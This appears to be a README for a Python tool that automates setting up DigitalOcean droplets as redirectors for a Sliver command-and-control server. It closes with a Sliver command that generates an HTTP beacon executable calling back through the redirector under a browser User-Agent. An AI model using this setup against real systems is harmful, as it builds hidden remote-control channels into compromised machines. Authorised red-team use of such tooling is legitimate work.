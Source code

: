 # DigitalOcean C2 Redirector Automation Script

This Python script provides a command-line interface to automate the deployment of a redirector server for sliver, using DigitalOcean droplets.


## 3. Prerequisites

* **Python 3.x:** Installed on your local machine.
* **DigitalOcean Personal Access Token (API Key):** Generate one from your DigitalOcean control panel under "API" -> "Tokens/Keys". Ensure it has read/write access.
* **SSH Keypair:** You should have an SSH keypair generated on your local machine (e.g., `id_rsa` and `id_rsa.pub` on Linux/macOS, or generated via OpenSSH in PowerShell on Windows). Your public key must be uploaded to your DigitalOcean account.

## 4. Installation

1.  **Clone this repository** (or save the ` .py` script to your desired location).
2.  **Install the prerequisites:**
    ```bash
    pip install python-digitalocean
    pip install paramiko
    ```
## 5. General Usage

The script uses `argparse` for command-line arguments. The basic syntax is:

```bash
python run.py YOUR_DIGITALOCEAN_API_KEY <resource> <action> [optional_arguments]
```

The basic syntax to create a redirector through a DigitalOcean droplet is
```bash
python redirectorC2setup.py YOUR_DIGITALOCEAN_API_KEY droplets create-c2-redirector --ssh_keys SSH_KEY_ID --private-key-path PATH_TO_PRIVATE_KEY --C2-IP IP_OF_C2_SERVER --private-key-passphrase SSH_PRIVATE_KEY_PASSPHRASE
```
(To get your public ssh key id, first run 
```bash
python redirectorC2setup.py YOUR_API_KEY keys list
```
which will return a list of SSH keys and their corresponding IDs)

The command will take aroind 5 minutes to run and return the redirector ip.

Once done, to create a very basic beacon in sliver that uses the redirector, run 
```bash
generate --http  "https://REDIRECTOR_IP/,User-Agent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/125.0.0.0" --save /root/sliver-beacon.exe
```
